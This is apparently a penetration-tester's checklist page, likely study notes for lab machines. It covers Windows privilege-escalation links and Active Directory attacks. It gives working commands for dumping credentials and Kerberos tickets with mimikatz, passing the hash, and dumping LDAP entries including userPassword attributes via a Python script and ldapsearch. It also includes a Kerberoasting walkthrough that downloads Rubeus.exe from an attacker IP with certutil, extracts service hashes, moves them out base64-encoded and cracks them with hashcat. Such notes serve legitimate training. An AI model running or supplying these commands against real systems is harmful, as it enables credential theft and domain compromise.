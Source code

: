 #### Extra resources

* [ ] Payload all things Windows Privesc https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
* [ ] If a symbolic link is needed: https://github.com/googleprojectzero/symboliclink-testing-tools/releases/download/v1.0/Release.7z (see Symbolic writeup)
* [ ] Compile C code for windows with `mingw32`: https://stackoverflow.com/questions/2033997/how-to-compile-for-windows-on-linux-with-gcc-g

## ACTIVE DIRECTORY

* [ ] Domain users: `net user /domain`
* [ ] Specific user in domain: `net user <user> /domain`
* [ ] User SID: `whoami /user`
* [ ] Dump credentials: `.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" exit`
* [ ] Dump tickets: `.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::tickets" exit`
* [ ] Pass the hash: Use RC4\_HMAC portion to pass the hash.
* [ ] LAPS: see **hutch** on proving grounds
* [ ] Try using python scripts to enum users:

```python
import ldap3
server = ldap3.Server('x.X.x.X', get_info = ldap3.ALL, port =636, use_ssl = True)
connection = ldap3.Connection(server)
connection.bind()
print(server.info)

# Dump all objects
connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*')
print(connection.entries)

# Dump whole LDAP:
connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='userPassword')
print(connection.entries)
```

* [ ] `ldapsearch -x -b "dc=asky,dc=corp" -H ldap://10.1.139.113`
* [ ] `ldapsearch -x -h <IP> -s base.namingcontexts`
* [ ] `ldapsearch -x -h <IP> -b 'DC=?,DC=?'`
* [ ] Check for Lockout Policy: `ldapsearch -x -p 389 -h <machine IP> -b "dc=example,dc=local" -s sub "*" | grep lock`
* [ ] Check for local Groups (ex service accounts): `ldapsearch -h 10.129.93.167 -p 389 -x -b "dc=htb,dc=local"`

### Kerberoasting

1. Upload rubeus.exe to the client: `certutil -urlcache -f http://192.168.119.135/Rubeus.exe rubeus.exe`
2. Get service hashes: `rubeus.exe kerberoast /outfile:C:\temp\hashes.txt` (Use your own method for transfering hashes to your local machine, I decided to base64 encode them and copy/paste):
3. Encode the hashes: `certutil -encode hashes.txt hashes.b64`
4. Copy the hashes: `type hashes.b64`
5. Paste the hashes in kali. Remove new lines and don't copy the "CERTIFICATE" lines.
6. Decode the hashes in kali: `base64 -d hashes.b64 > hashes.txt`
7. Isolate the SQL hash anc crack it: `hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt`
